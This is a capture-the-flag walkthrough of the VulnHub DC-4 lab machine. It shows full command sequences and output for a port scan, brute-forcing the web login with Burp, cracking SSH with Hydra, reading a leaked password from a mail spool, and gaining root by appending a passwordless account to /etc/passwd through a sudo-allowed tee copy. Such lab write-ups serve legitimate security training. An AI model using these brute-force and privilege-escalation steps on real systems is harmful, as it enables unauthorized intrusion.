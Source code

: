 DC4

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Brute Force web login password
[+] Execute commands on the server from web app
[+] Hydra brute force login credentials
[+] Privilege Escalation abusing SUDO rights -  teehee ---adding setrus in /etc/passwd
"setrus::0:0:::/bin/bash"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Host is up (0.00066s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
MAC Address: 08:00:27:B3:AB:48 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Browsing to http://192.168.56.109 we found a login page

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DC4/dc41.png)

Burp Intruder with username : admin
password :  rockyou.txt

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DC4/dc42.png)

We can execute command on the server from the web application

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DC4/dc43.png)

After browsing the server we found a password backup for user jim

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DC4/dc44.png)


All this passwords have been put in a file.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# hydra -l jim -P passwords ssh://192.168.56.109
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-10-25 09:47:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 251 login tries (l:1/p:251), ~16 tries per task
[DATA] attacking ssh://192.168.56.109:22/
[STATUS] 179.00 tries/min, 179 tries in 00:01h, 75 to do in 00:01h, 16 active
[22][ssh] host: 192.168.56.109   login: jim   password: jibril04
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-10-25 09:49:07

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Username : jim
Password : jibril04


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh jim@192.168.56.109
jim@192.168.56.109's password: 
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sun Apr  7 02:23:55 2019 from 192.168.0.100
jim@dc-4:~$ id;whoami
uid=1002(jim) gid=1002(jim) groups=1002(jim)
jim

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jim@dc-4:~$ find / -user charles 2>/dev/null
/home/charles
/home/charles/.profile
/home/charles/.bashrc
/home/charles/.bash_logout
You have new mail in /var/mail/jim
jim@dc-4:/var/mail$ cat jim 
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
	(envelope-from <charles@dc-4>)
	id 1hCjIX-0000kO-Qt
	for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Logging in as Charles

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jim@dc-4:/var/mail$ su charles
Password: 
charles@dc-4:/var/mail$ id
uid=1001(charles) gid=1001(charles) groups=1001(charles)
charles@dc-4:/var/mail$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
charles@dc-4:/var/mail$ echo "setrus::0:0:::/bin/bash" | sudo /usr/bin/teehee -a /etc/passwd
setrus::0:0:::/bin/bash
charles@dc-4:/var/mail$ su setrus
root@dc-4:/var/mail# id
uid=0(root) gid=0(root) groups=0(root)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





